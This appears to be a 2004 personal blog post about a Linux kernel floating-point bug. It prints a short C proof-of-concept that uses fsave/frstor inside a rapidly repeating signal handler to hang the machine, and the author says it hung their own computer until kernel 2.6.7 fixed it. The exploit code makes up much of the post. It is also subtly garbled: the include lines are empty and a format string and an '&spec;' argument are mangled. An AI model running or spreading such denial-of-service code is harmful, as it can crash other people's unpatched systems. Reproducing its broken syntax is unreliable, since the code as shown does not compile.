 ```yaml
---
date: 2004-06-29 20:56:12
title: less than 30 lines of code that crashed linux
tags: Linux Unix QNX
---
```

yea yea, we all know about that stupid linux kernel bug that would allow a
program to crash the operating system.

it affected the floating point unit or something...  
as soon as I read about it, I tried it on my machine the night I got home,
and... it does hang my computer quite well

~~~
#include 
#include 
#include 
 
static void Handler(int ignore)
{
    char fpubuf[108];
    __asm__ __volatile__ ("fsave %0n" : : "m"(fpubuf));
    write(2, "*", 1);
    __asm__ __volatile__ ("frstor %0n" : : "m"(fpubuf));
}
 
int main(int argc, char *argv[])
{
    struct itimerval spec;
    signal(SIGALRM, Handler);
    spec.it_interval.tv_sec=0;
    spec.it_interval.tv_usec=100;
    spec.it_value.tv_sec=0;
    spec.it_value.tv_usec=100;
    setitimer(ITIMER_REAL, &spec;, NULL);
    while(1)
        write(1, ".", 1);
    
    return 0;
}
~~~

last weekend I finally took the time to update my kernel to 2.6.7...  
after applying all the patches I wanted myself, I sort of have a working kernel
but no bootsplash :(

no cool load screen, but it did get rid of the above kernel bug...  
I'll just wait for new -love to come out I guess.
